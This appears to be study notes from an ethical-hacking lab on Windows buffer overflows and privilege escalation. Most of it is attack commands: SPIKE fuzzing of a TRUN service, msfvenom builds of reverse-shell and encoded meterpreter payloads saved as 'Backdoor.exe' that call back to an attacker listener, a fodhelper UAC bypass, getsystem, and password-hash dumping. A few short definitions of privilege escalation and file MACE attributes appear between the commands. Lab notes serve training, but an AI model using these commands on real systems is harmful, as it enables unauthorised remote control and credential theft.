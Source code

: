 Buffer Overlow:
- generic_send_tcp 10.10.1.11 9999 stats.spk 0 0
  - Here, 10.10.1.11 is the IP address of the target machine (Windows 11), 9999 is the target port number, stats.spk is the spike_script, and 0 and 0 are the values of SKIPVAR and SKIPSTR.
  - stats.spk
```
s_readline();
s_string(“TRUN ”);
s_string_variable(“0”);
```

-  /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 11900
- msfvenom -p windows/shell_reverse_tcp LHOST=[Local IP Address] LPORT=[Listening Port] EXITFUNC=thread -f c -a x86 -b “\x00”
  - Here, -p: payload, local IP address: 10.10.1.13, listening port: 4444., -f: filetype, -a: architecture, -b: bad character.


Privileges are a security role assigned to users for specific programs, features, OSes, functions, files, or codes. They limit access by type of user. Privilege escalation is required when you want to access system resources that you are not authorized to access. It takes place in two forms: vertical privilege escalation and horizontal privilege escalation.

- Horizontal Privilege Escalation: An unauthorized user tries to access the resources, functions, and other privileges that belong to an authorized user who has similar access permissions

- Vertical Privilege Escalation: An unauthorized user tries to gain access to the resources and functions of a user with higher privileges such as an application or site administrator

```
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=10.10.1.13 -f exe > /home/attacker/Desktop/Exploit.exe
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
sessions -i 1 

run post/windows/gather/smart_hashdump

getsystem -t 1
: Uses the service – Named Pipe Impersonation (In Memory/Admin) Technique.

 use exploit/windows/local/bypassuac_fodhelper 
 set SESSION 1
 set payload windows/meterpreter/reverse_tcp
 
 getsystem -t 1
 run post/windows/gather/smart_hashdump
 
 
 msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=10.10.1.13 -f exe > /home/attacker/Desktop/Backdoor.exe
 
 ```
While performing post-exploitation activities, an attacker tries to access files to read their contents. Upon doing so, the MACE (modified, accessed, created, entry) attributes immediately change, which indicates to the file user or owner that someone has read or modified the information.
